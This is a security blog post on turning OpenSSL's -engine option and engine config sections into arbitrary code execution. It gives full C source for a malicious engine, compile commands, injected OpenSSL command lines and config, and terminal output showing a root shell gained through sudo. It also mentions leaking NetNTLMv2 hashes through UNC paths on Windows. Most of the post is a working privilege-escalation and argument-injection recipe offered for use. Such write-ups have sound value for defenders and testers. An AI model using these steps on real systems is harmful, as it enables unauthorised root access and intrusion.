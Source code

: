```yaml
---
layout: page
title: OpenSSL Arg Injection 
permalink: /openssl-arginjection/
---
```


# OpenSSL code execution through argument injection

This is a short little post detailing how to get OpenSSL to run arbitrary code through the use of the `-engine` option. As detailed in the docs, an OpenSSL engine is a new component "to support alternative cryptography implementations, most commonly for interfacing with external crypto devices".  These engines consist of compiled code which is loaded by OpenSSL, and can be used to run arbitrary code. 

This is useful in situations such as if you have the ability to pass arguments (like in an argument injection vulnerability) to OpenSSL, or can alter a configuration file used to generate certificates. If you have sudo access to OpenSSL, you can easily elevate to full root. Exploiting this does however require placing the malicious engine file somewhere on the disk of the target file system. 

On Windows (using a commonly distributed OpenSSL windows binary) it appears you can also use UNC paths for the engine DLLs, which also has the convenient effect of disclosing NetNTLMv2 hashes should you wish them. However, if you're at this point, you should be able to get command execution using a malicious engine.

I've found multiple applications that allow argument injection into OpenSSL, and using this argument injection has enabled me to turn that into code execution.

## Details

For demonstration purposes, I have a system running Debian 10 with OpenSSL installed and the `libssl-dev` package. Create a file "engine.c", with the following contents:

```
#include <stdio.h>
#include <openssl/engine.h>

static const char *engine_id = "malengine";
static const char *engine_name = "Engine for executing arbitrary code";

static int bind(ENGINE *e, const char *id){
    int ret = 0;
    int status = system("/bin/bash -c 'echo \"arbitrary code\"'");
    if(!ENGINE_set_id(e,engine_id)){
        fprintf(stderr, "Failed\n");
        goto end;
    }
    if(!ENGINE_set_name(e,engine_name)){
        fprintf(stderr, "Failed\n");
        goto end;
    }
    ret = 1;
    end:
        return ret;
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
This file is mostly sourced from [this OpenSSL blog](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/).


Compile it using the following gcc command, which will create the `engine.so` shared library. The engine file does not need to end in .so. This is very convenient as if you have a a web application that only allows whitelisted extensions for files written to disk you can get an engine file on there. 

`gcc -fPIC -o a.o -c engine.c && gcc -shared -o engine.so -lcrypto a.o`

and then use the following OpenSSL command:
`sudo openssl req -engine ~/engine.so`

which will output the following:
```
user@debian10:~$ sudo openssl req -engine ~/engine.so
arbitrary code
engine "rce" set.
```

If you can run openSSL with sudo, you can spawn a bash shell:

`int status = system("/bin/bash");`

```
user@debian10:~$ sudo openssl req -engine ~/engine.so
root@debian10:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian10:/home/user# 
```

Several other OpenSSL commands seem to support the engine parameter, such as  
```
openssl rsa -engine ~/engine.so
openssl s_client -engine ~/engine.so
openssl x509 -engine ~/engine.so
```

and probably some more, just check the man page. 

Exploiting these in argument injection vulnerabilities isn't always trivial as just injecting the engine parameter, as depending on the position of the injected argument you may also need to have a valid set of OpenSSL arguments. Interestingly enough the engine seems to be loaded even if the other Openssl args are invalid, as long as the engine argument preceeds the invalid argument. So we see:

```
user@debian10:~$ sudo openssl req INVALID -engine ~/engine.so
req: Use -help for summary.
user@debian10:~$  

```
doesn't work, however the following does:
```
user@debian10:~$ sudo openssl req -engine ~/engine.so INVALID
arbitrary code
engine "rce" set.
req: Use -help for summary.
user@debian10:~$ 
```

If you can write multiple lines into an OpenSSL config file somehow (%0a perhaps...), you can probably get an engine reference in there. Create a config file like:

```
[default]
openssl_conf = openssl_init

[openssl_init]
engines = engine_section

[engine_section]
foo = foo_section

[foo_section]
dynamic_path = /home/user/engine.so
init = 1

```

then when this is used by OpenSSL:
```
user@debian10:~$ openssl req -new -config test.cnf
arbitrary code
Generating a RSA private key
..........................+++++
............................+++++
writing new private key to stdout
```

One of the major downsides with malicious engines like this is that they are not particularly portable. If your target system is running an older or newer version of OpenSSL your generated engine may not work. You'll need to set up an environment that matches the target system to compile the engine, or do it on the target system if possible. There may be a way to generate more portable versions of these engines that work with multiple versions of OpenSSL.

Also, it probably doesn't need saying but *this is not a vulnerability in OpenSSL*.
